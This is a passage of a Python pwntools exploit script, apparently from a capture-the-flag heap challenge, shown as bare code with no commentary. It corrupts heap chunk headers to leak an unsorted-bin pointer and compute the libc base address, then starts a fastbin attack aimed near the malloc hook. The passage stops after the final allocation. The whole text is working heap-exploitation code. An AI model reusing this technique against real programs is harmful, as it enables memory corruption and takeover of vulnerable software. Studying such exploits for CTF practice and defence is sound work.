 ```python
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvline()
    return p.recvline()



alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)


free(1)
free(2)


payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)


payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)


alloc(0x10)
alloc(0x10)


payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)


alloc(0x80)


free(4)
show(2)

unsort_addr=u64(p.recv(8))
main_arena =unsort_addr-88
libcbase_addr =main_arena -0x3C4B20



alloc(0x60)


free(4)


payload = p64(libcbase_addr+0x3c4aed)  
fill(2, payload)


alloc(0x60)
```